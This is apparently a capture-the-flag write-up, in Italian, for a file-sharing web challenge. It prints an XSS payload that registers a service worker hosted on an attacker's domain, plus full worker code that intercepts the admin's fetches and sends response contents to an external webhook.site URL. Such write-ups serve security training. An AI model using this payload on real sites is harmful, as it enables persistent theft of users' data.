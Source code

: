 > Our new startup developed a new web app with amazing features you've never heard of.
> Website: http://filesharing.challs.olicyber.it

L'XSS in /play può essere utilizzato per eseguire uno script da un file condiviso con l'amministratore (consentito dal CSP), viene usato per registrare un service worker nel browser dell'admin; 

```html
<script>
navigator.serviceWorker.register('https://filesharing.m0lec.one/upload/e81c51506d9b4e4ca5d609ed0f6e4fe3');
window.setTimeout(()=>document.location = 'https://filesharing.m0lec.one/upload/ffffffffffffffffffffffffffffffff',500);
</script>
```
Scriviamo un service worker in JS per rubare i dati all'admin. Intercettiamo tutte le richieste fetch del browser, per ogni richiesta, salviamo la risposta nella cache e la restituiamo normalmente; cloniamo le risposte e ne estraiamo il testo; inviamo il contenuto della risposta (es. flag) a un webhook esterno (webhook.site) permettendo di ricevere i dati rubati.
Dunque, se l'admin visita la pagina con questo service worker attivo, ogni volta che scarica un file (es. flag) suddetto contenuto viene esfiltrato dall'attaccante (noi).

Un esempio di service worker per avere la flag è:

```javascript
// Per usarlo come service worker, dovresti collegare fetchHandler all'evento fetch:
// self.onfetch = fetchHandler;

function fetchHandler(e) {
  e.respondWith(
    caches.match(e.request).then((r) => {
      return r || fetch(e.request).then((response) => {
        console.log(response);
        console.log(new Map(response.headers));
        const newHeaders = new Headers();
        const anotherResponse = new Response(response.body, {
          status: response.status,
          statusText: response.statusText,
          headers: newHeaders
        });
        let clone = anotherResponse.clone();
        clone.text().then((x)=>fetch('https://webhook.site/9cf73d0f-160a-4f23-a986-70f1bc21b864/'+x).then((r)=>console.log(r)));
        console.log(new Map(anotherResponse.headers));
        return caches.open('static').then(
          (cache) => {
            cache.put(e.request, anotherResponse.clone());
            return anotherResponse;
          }
        );
      });
    })
  );
}
```

Ma ci sono altri modi.